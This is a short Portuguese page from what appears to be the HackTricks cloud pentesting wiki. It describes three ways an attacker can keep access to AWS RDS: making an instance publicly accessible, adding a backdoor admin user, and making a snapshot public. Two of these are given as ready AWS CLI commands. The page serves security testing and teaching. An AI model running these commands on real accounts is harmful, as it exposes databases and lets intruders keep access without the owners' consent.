 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Para mais informações, consulte:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Tornar a instância acessível publicamente: `rds:ModifyDBInstance`

Um atacante com esta permissão pode **modificar uma instância RDS existente para habilitar a acessibilidade pública**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Criar um usuário admin dentro do DB

Um atacante poderia **criar um usuário dentro do DB** para que mesmo se a senha do usuário master for modificada, ele **não perca o acesso** ao banco de dados.

### Tornar o snapshot público
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
